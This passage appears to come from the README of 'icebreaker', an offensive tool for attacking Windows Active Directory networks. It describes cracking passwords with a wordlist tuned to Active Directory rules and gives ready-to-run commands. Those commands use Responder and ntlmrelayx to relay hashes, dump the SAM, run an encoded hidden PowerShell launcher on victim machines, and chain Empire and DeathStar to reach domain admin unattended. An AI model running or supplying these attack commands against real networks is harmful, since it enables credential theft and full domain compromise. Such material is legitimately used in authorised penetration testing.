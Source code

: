 Password cracking is done with JohnTheRipper and a custom wordlist. The origin of this list is from the [merged.txt](https://github.com/danielmiessler/SecLists/blob/601038eb4ea18c97177b43a757286d3c8a815db8/Passwords/merged.txt.tar.gz) which is every password from the SecLists GitHub account combined. The wordlist was pruned and includes no passwords with: all lowercase, all uppercase, all symbols, less than 7 characters, more than 32 characters. These rules conform to the default Active Directory password requirements and brought the list from 20 million to just over 1 million which makes password cracking extremely fast.

#### Installation
As root:
```
./setup.sh
pipenv install --three
pipenv shell
```
You might get an error after running pipenv install. Update to a version of pipenv higher than 11.9.0 if that is the case. You can git clone pipenv from github and just ```apt-get remove python-pipenv && python setup.py install``` from within the folder.

### Docker Usage
Still a few bugs to work out with the docker image so this is likely to error for you but it's almost there. From the Git Repo:
```
docker build --rm -t danmcinerney/icebreaker .
docker run danmcinery/icebreaker
```
Or append the commands you'd normally add to icebreaker (don't forget to map volumes):
```
docker run -v $(pwd)/logs:/icebreaker/logs -v $(pwd)/hashes:/icebreaker/hashes -v $(pwd)/icebreaker-scan.xml:/icebreaker/icebreaker-scan.xml -v $(pwd)/submodules:/icebreaker/submodules -e PYTHONUNBUFFERED=0 danmcinerney/icebreaker -x icebreaker-scan.xml
```
**Note: You'll want to map ports for listeners with docker's `-p <host>:<container>` flag. 

#### Usage
Run as root.
Read from a newline separated list of IP addresses (single IPs or CIDR ranges) and instead of having ntlmrelayx add a user and mimikatz the victim upon hash relay, have it execute a custom command on the victim machine. In this example we're giving it a command similar to what Empire might give us for a powershell launcher one-liner.

```./icebreaker -l targets.txt -c "powershell -nop -w hidden -exec bypass -enc WwFk..."```

Read from a hostlist, tell Responder to use the eth0 interface rather than the default gateway interface, let Responder run for 30m instead of the usual 10m, and run the default ntlmrelayx post-relay commands to dump the SAM off the victim server.

```./icebreaker -l targets.txt -i eth0 -t 30 -c default```

Use an Nmap XML output file, skip all five attacks plus don't autocrack hashes, and use a custom password list for the reverse bruteforce attack (note that since this example is skipping attack 1 via '-s rid' the password list specified won't even get used; this is just used as an example) 

```./icebreaker.py -x nmapscan.xml -s rid,scf,llmnr,relay,dns,crack -p /home/user/password-list.txt```

Fire-and-forget usage: input targets file, scrape companydomain.com for email usernames to be added to the reverse bruteforce attack, skip mitm6's IPv6 DNS poisoning, and run Empire and DeathStar in either tmux or xterm windows once attack 4 starts in order to gain automated domain admin. The goal of this usage is to fire off the command Monday at 9am then go take a short, uninterrupted break until Friday at 4:30pm at which point we come back to a domain admin shell waiting for us. We skip attack 5 (mitm6) because it can sometimes cause network issues and we don't want angry clients interrupting our hard-earned break.


```./icebreaker.py -l targets.txt -d companydomain.com -s dns --auto [tmux/xterm]```

```
